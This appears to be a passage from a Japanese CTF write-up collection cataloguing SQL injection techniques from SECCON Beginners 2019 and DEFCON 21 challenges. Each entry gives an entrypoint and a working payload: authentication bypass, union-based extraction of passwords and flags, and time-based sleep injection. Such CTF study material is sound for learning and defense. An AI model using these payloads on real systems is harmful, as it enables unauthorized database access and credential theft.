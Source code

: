 ```txt
" union select sleep(5),"leet1337","leet1337",9001 from INFORMATION_SCHEMA.COLUMNS where COLUMN_NAME="password
```
- **payload**  
```txt
" union select sleep(5),"leet1337","leet1337",9001 from INFORMATION_SCHEMA.COLUMNS where COLUMN_NAME="password
```
## Union query / 検索フォーム (SECCON Beginners CTF 2019 Ramen)
https://nomizooon.hateblo.jp/entry/2019/05/27/190418  
- **entrypoint**  
検索フォームにSQLInjectionできる。  
`' or 1=1 -- -`でエラーにならないのでSQLInjection可能とわかる。  
以下のようにしてカラム数を特定すると３でエラーとなったので2とわかる。  
```txt
' order by 1 #

' order by 2 #

' order by 3 #  // エラー
```
以下でFlagテーブルのFlagカラムにあるとわかる。  
```txt
' UNION SELECT table_name,column_name from information_schema.columns #
```
以下でFlagゲット！  
```txt
' UNION SELECT flag,0 FROM flag #
```
- **payload**  
```txt
' UNION SELECT flag,0 FROM flag #
```

## Union query / login (DEFCON 21 CTF babysfirst)
https://emeth.jp/diary/2013/06/defcon-21-ctf-qualification-writeup/  
- **entrypoint**  
loin formがあり適当にログインすると以下のようなレスポンスヘッダが返るため、SQLInjection可能とわかる。  
```txt
X-Sql: select username from users where username='xxx' and password='yyy' limit 1;
```
`' or 1=1;--`を入れると`root`としてログインできるが、Flagは出ない。  
`' union select password from users where username='root';--`でrootのパスワードは見えるがFlagではない。  
SQLite3を使っているため、以下でいろいろ調べるとkeysというテーブルがあり、そこにFlagがあったらしい。  
```txt
' union select sql from sql_master where type='table' and name='users';--
```
```txt
' union select value from keys;--
```
- **payload**  
```txt
' union select value from keys;--
```
